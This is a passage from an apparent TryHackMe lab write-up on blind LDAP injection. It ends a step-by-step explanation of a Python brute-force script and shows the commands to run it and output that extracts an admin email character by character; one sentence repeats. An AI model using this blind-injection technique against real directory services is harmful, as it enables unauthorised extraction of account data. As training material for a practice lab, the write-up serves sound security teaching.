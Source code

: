     - If no paragraphs meet the criteria, the script concludes that no successful characters were found in the current iteration, prints a message, and exits the loop.
9. **Output**:
    - Once all characters have been tested or the correct sequence is found, the script prints the final sequence of successfully found characters.

The above script iteratively guesses the characters of the email by observing the web application's behaviour in response to crafted input.

The above script iteratively guesses the characters of the email by observing the web application's behaviour in response to crafted input.

### Automation

Save the Python code above. If you are using AttackBox, the required Python modules have already been installed. Make sure to use `python3.9` when using the AttackBox since there are multiple Python installations on it.

Below is the sample command on how to run the automation script:

~/Downloads

```shell-session
user@tryhackme$ ls
script.py
user@tryhackme$ python3.9 script.py
```

This will immediately show the results of the brute force as shown below:
```
┌──(venv)─(kali㉿kali)-[~/tmp/tryhackme/ldapinjection]
└─$ python3 exp.py  
Successful character found: a
Successful character found: d
Successful character found: m
Successful character found: i
Successful character found: n
Successful character found: _
Successful character found: b
Successful character found: l
Successful character found: 1
Successful character found: n
Successful character found: d
Successful character found: @
Successful character found: l
Successful character found: d
Successful character found: a
Successful character found: p
Successful character found: .
Successful character found: t
Successful character found: h
Successful character found: m
No successful character found in this iteration.
Final successful payload: admin_bl1nd@ldap.thm


```
